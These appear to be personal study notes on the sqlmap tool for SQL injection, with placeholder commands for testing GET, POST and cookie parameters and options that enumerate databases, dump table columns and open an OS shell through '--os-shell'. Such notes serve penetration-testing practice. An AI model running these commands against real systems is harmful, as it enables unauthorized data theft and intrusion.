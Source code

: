 
### General Notes

> Automated tool to test for [[SQL Injections]].
> Gets information about the Database and system being used.

> Data is saved in `/usr/share/sqlmap/output/sqlmap.test` for each url used.
> Can use `--flush-session` to reset this data.

---

### Finding an Injection

```
sqlmap -u <'url'> -p <injection point> [options]
sqlmap -u 'http://<site>?id=123' -p id --technique=U		//test id parameter using UNION (GET)
sqlmap -u <'url'> --data=<'post string'> -p <parameter> [options]	//using (POST)
sqlmap -u <'url'> -p <parameter> --cookie <"">
```

---

### Exploiting an Injection

```
--banner: gets the banner of the database
--technique: what to use => U: UNION, B: BOOLEAN
-v3: what commands are used, GET THE PAYLOAD TO USE IN THE WEBBROWSER
--users: gets the current user in the db
--dbs: gets the databases
-D <db-name> --tables: lists the tables in the database db-name
-D <db-name> -T <table-name> --columns: lists the columns in the table 
-D <db-name> -T <table-name> -C column-name,column-name  --dump: gets the info of the columns
-r <filename.req>: saved file from burp proxy
--os-shell: to get a reverse shell. Use php and brute force search.
```

---
